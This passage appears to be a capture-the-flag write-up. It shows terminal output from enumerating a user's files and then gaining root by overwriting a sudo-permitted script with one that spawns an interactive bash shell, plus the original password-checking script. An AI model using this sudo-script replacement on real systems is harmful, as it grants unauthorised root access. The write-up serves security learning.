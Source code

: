 ```

ccoffee@slax:~$ ls 
DONOTFORGET*  scripts/

ccoffee@slax:~$ cat DONOTFORGET 
remember your 20th anniversary on the 5th!!!!!!!!!1111!!

ccoffee@slax:~$ cat scripts/getlogs.sh 
cat: scripts/getlogs.sh: Permission denied

ccoffee@slax:~$ ls -l scripts/getlogs.sh 
-rws--x--x 1 root admin 110 Oct 20 18:03 scripts/getlogs.sh*

ccoffee@slax:~/scripts$ sudo ./getlogs.sh      
wrong!
```

When we try to read it, it gives us a permission denied error. However, as a user in the `admin` group, we have executable permissions on it, when we try to run it, it simply gives us a "wrong!" message back! What is happening?

In hindsight, there is a neat way to get root. Because `coffee` is given sudo powers on `/home/ccoffee/scripts/getlogs.sh` and it will run that script as root, we can simply put our own script in it:

```
coffee@slax:~# cat scripts/getlogs.sh
#!/bin/bash

/bin/bash -i
```

When you execute the script using sudo, you become root! For curiosity's sake, let us see what's up with the original `getlogs.sh` file:

```
bash-3.1# cat scripts/getlogs.sh.bak 
#!/bin/bash
if [ "$2" == "emerald" ]; then
	while read line
	do
		echo $line
	done < $1
else
	echo wrong!
fi
```

So there you have it, this challenge proved to be a good experience for me and it taught me especially to:
1) Remember to enumerate the groups of all the users
2) Think out of the box when trying to get root by exploiting trust. If `root` is set to run that particular file, there is probably a way to make `root` run a different file.